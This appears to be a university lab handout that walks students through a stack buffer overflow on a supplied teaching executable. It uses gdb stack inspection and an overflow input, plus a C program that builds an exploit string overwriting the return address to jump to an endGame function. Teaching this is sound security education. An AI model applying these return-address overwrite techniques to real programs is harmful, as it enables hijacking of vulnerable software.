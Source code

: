 ```yaml
---
layout: page
title: Buffer Overflow Lab
permalink: /classes/208-f25/buffer-overflow-lab
---
```


## Goals
Walk through a buffer overflow attack yourself.

## Set up
1. Download the [secret executable](/classes/208-f25/secretx86-64.tar.gz) (Source: https://diveintosystems.org/book/C7-x86_64/buffer_overflow.html)
2. Move it to mantis and extract with `tar -xzvf secret86-64.tar.gz`

## Smashing the Stack

1. Start gdb with the executable

2. Put a breakpoint at address `0x0000000000400717`:
    ```bash
    b *0x0000000000400717
    ```

3. Run and get to the breakpoint

4. Take a look at the contents of the stack at this point:

    ```bash
    x/6gx $rsp
    ```

5. Run the next instruction `ni` twice until you get to the prompt. Enter `1234567890`.

6. Take a look at the stack again. Can you see your input? Remember that the ASCII of 0 through 9 is `0x30` through `0x39`. 

7. Check what is in `rbp` with `info reg rbp`, do you see that in your stack output? 

8. Your goal is to input a value long enough that it reaches the location of `rbp`, how long does it need to be?

9. Rerun with the input value `1234567890123456789012345678901234567890123`

10. When you check the contents of the stack with `x/6gx $rsp`, what has happened to the place where `rbp` was pointing?

## Exploiting the Stack
1. Go into `layout asm` and scroll around until you see the function `endGame` and note the memory address where it starts (the blue hex all the way on the left).

2. Create an `exploit.c` with the following:

    ```c
    #include <stdio.h>

    char ebuff[]=
    "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*first 10 bytes of junk*/
    "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*next 10 bytes of junk*/
    "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*following 10 bytes of junk*/
    "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*last 10 bytes of junk*/
    /*TODO*/ /*address of endGame (little endian)*/
    ;

    int main(void) {
        int i;
        for (i = 0; i < sizeof(ebuff); i++) { /*print each character*/
            printf("%c", ebuff[i]);
        }
        return 0;
    }
    ```

3. Put in the address that you found, little endian and broken up in the same way with `\xAB` where `AB` are two characters of the address. 

4. Compile and run your C code to make your exploit string:

    ```bash
    gcc -o exploit_example exploit_example.c
    ./exploit_example > exploit
    ```

    This will result in a file that you can't read since there are unprintable characters, but that's the point

5. Now run your secret executable again, (with `b *0x0000000000400717`) but when you run, direct the input from your exploit file:

    ```bash
    run < exploit
    ```

6. Step through again, taking a look at your stack along the way and probably with `layout asm` open. Where do you jump to when the buffer overflows?

## More reverse engineering
Try reverse engineering the correct secret number for some extra practice!

A very similar process will get you through the first part of the Buffer Overflow homework, try it out!